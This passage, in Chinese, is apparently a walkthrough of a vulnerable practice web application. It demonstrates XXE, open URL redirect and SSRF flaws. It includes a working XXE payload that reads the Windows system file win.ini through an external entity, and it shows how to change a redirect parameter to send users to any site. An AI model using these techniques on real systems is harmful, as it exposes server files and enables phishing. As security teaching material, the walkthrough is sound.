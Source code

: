 



使用此payload

```xml-dtd
<?xml version="1.0"?> 
<!DOCTYPE a [
	<!ENTITY d SYSTEM "file:///c:/windows/win.ini">
]>
<abc>&d;</abc>
```

=>![](https://i.loli.net/2021/02/14/mLMThdj2pk6BN4R.png)

或者：

```xml-dtd
<?xml version="1.0"?> 
<!DOCTYPE a [
	<!ENTITY d "here has a xxe~~~">
]>
<abc>&d;</abc>
```

=>![](https://i.loli.net/2021/02/14/Tprh6UwFzlSQMB1.png)

## URL重定向

> 不安全的url跳转问题可能发生在一切执行了url地址跳转的地方。
> 如果后端采用了前端传进来的(可能是用户传参,或者之前预埋在前端页面的url地址)参数作为了跳转的目的地,而又没有做判断的话
> 就可能发生"跳错对象"的问题。
>
> url跳转比较直接的危害是:
> -->钓鱼,既攻击者使用漏洞方的域名(比如一个比较出名的公司域名往往会让用户放心的点击)做掩盖,而最终跳转的确实钓鱼网站



检查元素，可以看到跳转的参数为url=xxx

![](https://i.loli.net/2021/02/14/8bvJB1CIqr9O4fz.png)



修改为想跳转的链接即可：如url=https://www.baidu.com/

![](https://i.loli.net/2021/02/14/JLBbnfIF1KCt32Z.png)

点击就会跳转到百度页面啦~

## SSRF

> 由于服务端**提供了从其他服务器应用获取数据的功能**,但又没有对目标地址做严格过滤与限制
>
> 导致攻击者可以传入任意的地址来让后端服务器对其发起请求,并返回对该目标地址请求的数据
>
> 数据流:攻击者----->服务器---->目标地址
>
> 根据后台使用的函数的不同,对应的影响和利用方法又有不一样
>
> ```
> PHP中下面函数的使用不当会导致SSRF:
> file_get_contents()
> fsockopen()
> curl_exec()     
> ```
>
>
> 如果一定要通过后台服务器远程去对用户指定("或者预埋在前端的请求")的地址进行资源请求,**则请做好目标地址的过滤**。
